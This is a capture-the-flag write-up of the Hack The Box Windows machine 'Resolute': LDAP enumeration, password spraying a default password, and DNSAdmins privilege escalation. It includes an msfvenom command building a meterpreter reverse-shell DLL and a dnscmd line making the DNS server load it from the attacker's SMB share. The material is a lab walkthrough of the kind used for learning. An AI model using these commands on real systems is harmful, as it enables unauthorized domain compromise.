 # Resolute
Details:
- Resolute IP: 10.10.10.169
- Kali IP: 10.10.14.145
- Difficulty: medium
- Date of writeup: 30 May 2020

Resolute, my first Windows box. It was much harder for me than the average medium difficulty Linux box. Even though I had some knowledge on ldap, smb and active directory, which turned out to be handy, I couldn't finish it without a brief hunt for tips.

Sections:
- [Recon](#recon)
- [Obtaining a Foothold](#obtaining-a-foothold)
- [Lateral Movement](#lateral-movement)
- [Getting to Root](#getting-to-root)
- [Learnings from ippsec walkthrough](#learnings-from-ippsec-walkthrough)

Tools/commands Used
- nmap
- evil-winrm
- crackmapexec
- ldapsearch
- Bloodhound
- msfconsole
- msfvenom

## Recon
So, first things first: recon (```-v``` option shows ports as it founds them, so we can start working on them right away)
```shell
kali$  nmap -v -sC -sV 10.10.10.169
```

![](images/Resolute_2.png?raw=true)

There are many things to try out, given the ports that are open: DNS (53), Kerberos (88), LDAP (289), SMB (445) and so on. I started with LDAP.

## Obtaining a Foothold

```shell
kali$  ldapsearch -h 10.10.10.169 -x -s base namingcontexts
```

With the command above we can extract part of the FQDN (Fully Qualified Domain Name). We want to know the Domain Controller's name, to use it with the ```ldapsearch``` command (we actually also get the Domain name in the nmap run).

```shell
kali$  ldapsearch -h 10.10.10.169 -x -b "DC=megabank,DC=local"
```

This command spits out a bunch of information. I saved it in a file and started going through it. What we would really like to know is if there is any information regarding the users. We know, from an extended nmap scan (```nmap -p- 10.10.10.169```), that port 5985 is open, so we can use ```evil-winrm``` to log in.

Sure enough, after a bit of search, we found out that upon creation, users are given a default password.

![](images/Resolute_3.png?raw=true)

We now need to know whether some of the users forgot to change that password or not. We can do this in two ways:
- Extract the users from the LDAP dump by searching for the field ```sAMAccountName``` and attempt the password for all of them, or
- Look at information in the LDAP dump, fields like ```badPasswordTime```, ```lastLogonTimestamp```, ```pwdLastSet```, etc., and try to make inferences as to which user might have not changed their default password

Since there are only 60-something users in the system and there is no password lockout (see image below), then we can proceed to use ```crackmapexec```

![](images/Resolute_1.png?raw=true)

```shell
kali$  crackmapexec smb 10.10.10.169 -u users.txt -p passwords.txt
```

Sure enough, we get that user ```melanie``` didn't change her default password. We can now establish a connection:

![](images/Resolute_4.png?raw=true)


## Lateral movement

Achieving root was quite difficult in this box. It was quite a challenge and also I feel it was quite a "real-life"-like scenario. I attempted a bunch of things that didn't work out because of several reasons, and I ended up looking for tips in Reddit. The reason why many of the things I tried didn't work was because there seemed to be some security software running, as can be observed in the image below, where I tried to run PowerView.

![](images/Resolute_5.png?raw=true)

I also ran many enumeration scripts and Bloodhound, which turned out to be useful later on. To use it:
- Install [neo4j](https://neo4j.com/docs/operations-manual/current/installation/linux/debian/#debian-install)
- Pull [Sharphound ingestors](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors) from github
- Copy ingestor to the target, run it and obtain the Zip file back in your Kali VM
- Startup neo4j
- Get a [Bloodhound release](https://github.com/BloodHoundAD/BloodHound/releases) to start up the server
- Change chrome-sandbox permissions/owner as needed
- Import the zip file in Bloodhound

I have to admit that not being very profficient in the use of Bloodhound, at first I was overwhelmed with the amount of information and followed a bunch of rabbit holes. My attempt to run PowerView above was one of those. I'm not goint into details here on how to use Bloodhound, as I'm sure there are many good resources out there to look at.

What I should have seen, however, was that there was another user that could remote into the Domain Controller. This should have been an interesting clue for me.

Anyhow, what I ended up doing was going through the filesystem searching for clues. There was an interesting folder in the C:\ folder:

![](images/Resolute_6.png?raw=true)

Getting the content of that file:

![](images/Resolute_7.png?raw=true)

We have the credentials to user ```ryan```, which is the user that I missed in the Bloodhound analysis.

![](images/Resolute_8.png?raw=true)


## Getting to root

We're still not there yet. This box seems to never end!

User ```ryan``` has a singularity, and it is that it belongs to the group DNSADMINS. I realized that while looking at the Bloodhound analysis, but since then I have not been able to reproduce the same query that I did to find it out. Anyways, any good enumeration script would have told me the same. 

After a bit of browsing around (just look for "DNSAdmin privilege escalation" and there'll be a bunch of results) I knew [what to do](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83). It seems that you can tell the DNS server to load an arbitrary DLL and run it. You can even use an UNC path, which is what I use in the following image

![](images/Resolute_9.png?raw=true)

Explanation:
- First, build a dll which will open a reverse shell to your kali VM:
```shell
kali$  msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.145 LPORT=4444 -f dll > smb_srv/privesc.dll
```
- Open msfconsole and start the handler for the reverse shell
- In the target machine, run the command that will load the dll
```shell
resolute$  dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.14.145\smb_srv\privesc.dll
```
- In the target machine, use ```sc.exe``` to stop/start the DNS server, making it load the DLL

**We have root!**


## Learnings from [ippsec walkthrough](https://www.youtube.com/watch?v=8KJebvmd1Fk)

TODO

